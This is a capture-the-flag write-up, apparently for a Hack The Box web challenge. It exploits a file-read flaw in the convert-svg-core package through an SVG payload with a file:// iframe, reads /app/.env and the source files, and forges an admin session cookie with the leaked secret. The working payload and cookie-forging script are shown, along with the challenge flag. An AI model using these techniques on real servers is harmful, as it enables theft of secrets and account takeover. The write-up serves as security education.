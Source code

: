Register an account. (While people likely have tried "admin" as the username here, I didn't do that)

After pressing "Export TadPole Samples", the server returned an error with the *stack trace*.

```
TypeError: Cannot read properties of null (reading 'indexOf')
    at Converter.[convert] (/app/node_modules/convert-svg-core/src/Converter.js:191:25)
    at Converter.convert (/app/node_modules/convert-svg-core/src/Converter.js:114:40)
    at API.convert (/app/node_modules/convert-svg-core/src/API.js:80:32)
    at /app/routes/index.js:61:21
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:286:22
    at Function.process_params (/app/node_modules/express/lib/router/index.js:348:12)
```

This is very bad as **important information about the source code and dependencies can be leaked**, more specifically:
- The package convert-svg-core is used, and from [Snyk](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785) we can confirm that it is susceptible to *directory traveral* attacks, which means that I could access arbitrary file on the system allowed by the program's privilege.
- The error occurred at /app/routes/index.js.

To pull off the vuln, I created a simple helper function. I increased the SVG's height to 
```
let doPayload = p => fetch(`/api/export`, {
		method: 'POST',
		headers: {
			'Content-Type': 'application/json',
		},
		body: JSON.stringify({
			svg: `<svg-dummy></svg-dummy>
<iframe src="file://${p}" width="100%" height="1500px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1500" xmlns="http://www.w3.org/2000/svg">
  <rect fill="white" width="100%" height="100%"/>
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>`
		}),
	})
	.then((response) => response.json())
		.then((data) => {
			if (data.hasOwnProperty('png')) {
				window.open(data.png);
			}
		})
	.catch((error) => {
		console.log(error);
	});
```

with `doPayload('/app/routes/index.js')` we get the page source code: (image cropped)
![image](https://user-images.githubusercontent.com/26480299/169437385-b7141003-e35e-4335-ae6f-741fabd101cf.png)

The following files should also be checked:
- /app/package.json
- /app/index.js
- /app/.env

From that we know that the key supplied to package `cookie-parser`. Cookie-parser stores both the session content and the cookie signature client-side:

![image](https://user-images.githubusercontent.com/26480299/169439066-b221f8d8-56e5-4f77-88a6-25e8363ebae6.png)
```
> atob("eyJ1c2VybmFtZSI6InRlc3QifQ==")
< '{"username":"test"}'
```

Usually cookies will store the expiry date and other details as well, but since this is a CTF, we can impersonate admin with the leaked key. I re-created the environment and created the admin session cookie.
```
const express      = require('express');
const session      = require('cookie-session');
const app          = express();
const cookieParser  = require('cookie-parser');
const nunjucks     = require('nunjucks');

app.use(express.json({limit: '2mb'}));
app.use(cookieParser());

require('dotenv').config({path: '/app/.env'})
app.use(session({
  name: 'session',
  keys: [process.env.SESSION_SECRET_KEY]
}))

nunjucks.configure('views', {
  autoescape: true,
  express: app
});

app.all('*', (req, res) => {
  req.session.username = 'admin';

  return res.status(404).send({
    message: 'auth success'
  });
});

(async () => {
  app.listen(1337, '0.0.0.0', () => console.log('Listening on port 1337'));
})();
```
Log out and change the cookies.
![image](https://user-images.githubusercontent.com/26480299/169443927-b968b500-ed3e-47ec-8a1c-7d1ad0a8b033.png)

**Flag: HTB{fr4m3d_th3_s3cr37s_f0rg3d_th3_entrY}**

Remark: Someone has suggested that [Cookie Monster](https://www.npmjs.com/package/@digital-interruption/cookie-monster) can also be used but I haven't tried that.
